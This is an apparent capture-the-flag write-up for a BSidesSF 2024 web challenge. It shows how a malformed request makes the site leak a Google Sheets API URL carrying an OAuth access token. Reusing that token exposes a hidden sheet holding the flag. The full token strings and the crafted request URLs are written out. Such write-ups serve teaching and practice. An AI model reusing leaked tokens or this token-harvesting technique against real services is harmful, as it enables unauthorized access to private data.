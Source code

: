 ```yaml
---
CTF: BSidesSF'24
Category: web
Points: "424"
Date: 2024-05-05
Solved?: true
---
```

----
[<- Home](../../)
### TL;DR

**Flag**

```
CTF{acc355-t0k3n5}
```

### Details

Description

> I wonder what color the flag is?
> Author: itsc0rg1, Mandatory
> 
> https://color-picker-5861f5ad.challenges.bsidessf.net/
> 


We get the site with shade picker

![](assets/Pasted%20image%2020240505235450.png)

There are two separate requests visible in the network tab when submitting the shade.

![](assets/Pasted%20image%2020240505235546.png)

The second one is the final destination where the picked shade will be displayed.

![](assets/Pasted%20image%2020240505235621.png)

However, there is a catch. If we send a request without `range_end`, for example

```
https://color-picker-5861f5ad.challenges.bsidessf.net/color?range_start=A2&range_end=
```

We cause visible HTTP error that gives us spreadsheet URL

![](assets/Pasted%20image%2020240506000233.png)

```
https://sheets.googleapis.com/v4/spreadsheets/18hFC6DvTZ-NtbYby7Sej0f8t8-6n0_GL7Uf25acuRk8/values/A2:?access_token=ya29.c.c0AY_VpZjp-SMc493hGrjMTJheTGExYYwWXOxZfat799nqAHHv0X-My4ktQYy4YZAhDai-HqFGP176rvU0N5OCYC21KDbFHZ0wGy_oNXp-H-ZD3Ed9iM7oc6pGQtN_dtLc9W_8g9g8GeXzaecHWyFO3sTS31QqgboH_VuoPBu4BiLr9zFTp8Lt4yC1d0x4ekPetAASMN2qy8RfuS1RiWN2zmyTt-ID5nuuYMDJrgvu91H3EDgb7ta5QMRmS27pCwl5DDn0jPMPAvEkhZeSzQid6n8cdbaBCwiq_pFU9FQQyqhe4KXk6m_6i2-cWCagoPzJyiy1FND1U9XomhEAO1xa89Qu9XYESE1SC2aJckng5tDPDr7mGSILluA7N385KWtdSS2Uc2r_40bi5WssQ1vMVghrd3Uq-BFdcrY-4x-yB7OqrRMkgiZaSujlcYau9mM2Xg6RJraF9x5ndfMvR7Sjcy1OrJvcgFQfqwjO_B10by5pB3iMnQbayS2M9zu28VbpiS0jU2ORWBYoj_iaQbRJ3bUxYY01w1Qvzg97xu_q9F2yWmOvig9UVbOifB0c52gi2Ur0IXc1YjaU-WsXf8afvWQbzFFqI3Jvm2MO4Jh12glw0dkjZjs-lJcVkqpwYYYYdu5W13xbiyM062pcnsXW7Vx9q86dyaaVoQSaSubMjgh-lyItiiUgO0x2ut1cehfJodhSRd9trBxz8uju7vJ1ZOJzduZYQ-zrSSBXZqfkBXb3Rq7bqS9sQByeU86MaUQzVhycnik8nmi46mbqd24qR0lJZ8Mp5XeJrediau9bS0QplooXWVmwgkXVlJ5U86Os6zqfs9_I2QZ1dkJb7nXF45klof8RjtjdpzMB_S55OtBdheO9WfdZxYsynW5IUjW3Yr3pMM8p2y7nMeZ4tpix5qzZhnaco7Zeqwcs8ur9dbqlwzsrZ5OzlkhXF-40xm7XRbeQ635Zkpn6u7BsI35FjzBih7oy8BJ4-BuvSUXr9ywu11tW5knrpSg
```

No we need to fix the request that we previously broke. By removing `/values/A2:` from the it, we can obtain information about the spreadsheet.

```
https://sheets.googleapis.com/v4/spreadsheets/18hFC6DvTZ-NtbYby7Sej0f8t8-6n0_GL7Uf25acuRk8?access_token=ya29.c.c0AY_VpZjp-SMc493hGrjMTJheTGExYYwWXOxZfat799nqAHHv0X-My4ktQYy4YZAhDai-HqFGP176rvU0N5OCYC21KDbFHZ0wGy_oNXp-H-ZD3Ed9iM7oc6pGQtN_dtLc9W_8g9g8GeXzaecHWyFO3sTS31QqgboH_VuoPBu4BiLr9zFTp8Lt4yC1d0x4ekPetAASMN2qy8RfuS1RiWN2zmyTt-ID5nuuYMDJrgvu91H3EDgb7ta5QMRmS27pCwl5DDn0jPMPAvEkhZeSzQid6n8cdbaBCwiq_pFU9FQQyqhe4KXk6m_6i2-cWCagoPzJyiy1FND1U9XomhEAO1xa89Qu9XYESE1SC2aJckng5tDPDr7mGSILluA7N385KWtdSS2Uc2r_40bi5WssQ1vMVghrd3Uq-BFdcrY-4x-yB7OqrRMkgiZaSujlcYau9mM2Xg6RJraF9x5ndfMvR7Sjcy1OrJvcgFQfqwjO_B10by5pB3iMnQbayS2M9zu28VbpiS0jU2ORWBYoj_iaQbRJ3bUxYY01w1Qvzg97xu_q9F2yWmOvig9UVbOifB0c52gi2Ur0IXc1YjaU-WsXf8afvWQbzFFqI3Jvm2MO4Jh12glw0dkjZjs-lJcVkqpwYYYYdu5W13xbiyM062pcnsXW7Vx9q86dyaaVoQSaSubMjgh-lyItiiUgO0x2ut1cehfJodhSRd9trBxz8uju7vJ1ZOJzduZYQ-zrSSBXZqfkBXb3Rq7bqS9sQByeU86MaUQzVhycnik8nmi46mbqd24qR0lJZ8Mp5XeJrediau9bS0QplooXWVmwgkXVlJ5U86Os6zqfs9_I2QZ1dkJb7nXF45klof8RjtjdpzMB_S55OtBdheO9WfdZxYsynW5IUjW3Yr3pMM8p2y7nMeZ4tpix5qzZhnaco7Zeqwcs8ur9dbqlwzsrZ5OzlkhXF-40xm7XRbeQ635Zkpn6u7BsI35FjzBih7oy8BJ4-BuvSUXr9ywu11tW5knrpSg
```

![](assets/Pasted%20image%2020240505235854.png)

Based on it, we can find second sheet

![](assets/Pasted%20image%2020240505235910.png)

To access it, we simply need to add this to the response:

```
/values/Sheet2!A1:X100
```

```
https://sheets.googleapis.com/v4/spreadsheets/18hFC6DvTZ-NtbYby7Sej0f8t8-6n0_GL7Uf25acuRk8/values/Sheet2!A1:X100?access_token=ya29.c.c0AY_VpZhxjeTQbSYadAvXu9PsPy0JrQJUNHViPpZtxic8L6xsJtS6ALzBcqI5ilnK8-y9qHF8u61VrXPcjNMdlXCC8ptQMB0zCxEZ2x-m5i7amg26nBhFx8LY8AdFMKu8sLUvR4ohXzjv-EcuJ4G36C4Odyo0ptpaWoN4nLleEROAqYg6roeHhtnpDPKkWcJHuxf316qZrWE1be7A8gXeisvPOandi1obSSyO8upxjfLajwyPBaNBmeuJ37u8XcxXL6_S99ekClwode4M7fpQxbF6dk4kdXzjgNI9B5OHjtqcctl8dIUuV0lfcgFO8Q4yGsf5Rc7EVVDjQtsd1V0RDzrW4CBdIuBp0N4gPOz3kp6lzcnts7JDWKlkL385Au37UqaWizXhrU1BFb3cdRft7c6j5BveOQefhdOWU6booJZIlB4jRyynRSiZeJSSIXkoaRZ-_X8-M7uBU50shdIbR4FSkOYR72Xlgh6_U_S0yW_I8ZY_-6f1d3w4UXZcO1tqkVyBvqSRcmru2hhj7VsfvvI3uz8kX1nUVnJFS0t2Fj4jFzFB-5Bevt5v-4JjeO4bbzXFIz6aj8pgjvRmfptdscx6fUeOgJcM6ZsMkpZu9Vq5-dV5wfl3r5wMVl_QuiI6hJfxgQ7k5JxdkiZsWShoBUZc-FvSgmniSzorv-2edUIS9VfnmdS_23x7l69gjStQYrpM8Wm3nXrcZiqgj9VJkaznhUVd8JJ_p3cFW9pei6u8YJvb_Xrk_p8FBaFXq7qj-dhuo599cMM4g4Uqfd6_80j1th9c8oYUnQOJn0YOJU5mUdOJVJb6ceqiySwMYFYeyxxZ-xpi4S4BiuOMpYq4r15-zImw75c5W-oS-myttB50iquUqIMlpQitY-uvl5UsR-oMe-B4BIUcV-8bRv4iexRjO4u9V9ZcSca11B41tsZ91bpzIfMg65XueuevuheWJIs3Xvil0hZ011-yso0b3Xi1_k3uR3u7Yhh3i4-9M1uzrZFUJ1IQRa7
```

And here it is:

![](assets/Pasted%20image%2020240505235938.png)
